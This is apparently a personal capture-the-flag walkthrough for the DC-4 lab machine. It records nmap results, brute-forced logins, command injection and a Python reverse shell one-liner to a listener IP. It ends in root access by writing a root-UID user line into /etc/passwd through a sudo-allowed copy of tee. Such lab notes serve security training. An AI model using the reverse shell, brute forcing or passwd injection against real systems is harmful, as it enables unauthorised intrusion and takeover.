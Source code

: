 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# DC-4
# 19/2/2023

----------------------------------------------------
# brutforce port 80
----------------------------------------------------
user admin
pass happy
----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    nginx 1.15.10

----------------------------------------------------
# exploitaion
----------------------------------------------------
got cmd in webapp via buirp
got rev shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.107",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


----------------------------------------------------
# privEsc
----------------------------------------------------
got oldpass.back in jim home directory
lets brutforce with hydra to ssh
users can be 
 charles  jim  sam
[22][ssh] host: 192.168.43.160   login: jim   password: jibril04


->cat/var/mail/jim
user charles
Password is:  ^xHhA&hvim0y

as charles
->sudo -l
(root) NOPASSWD: /usr/bin/teehee

->teehee --help
Usage: teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'

->sudo teehee -a /etc/passwd
shub1:$1$wBWi6EWv$LbWS.z3TjFdrNY4uvzr4e1:0:0:root:/root:/bin/bash

su shub1
shub

got a root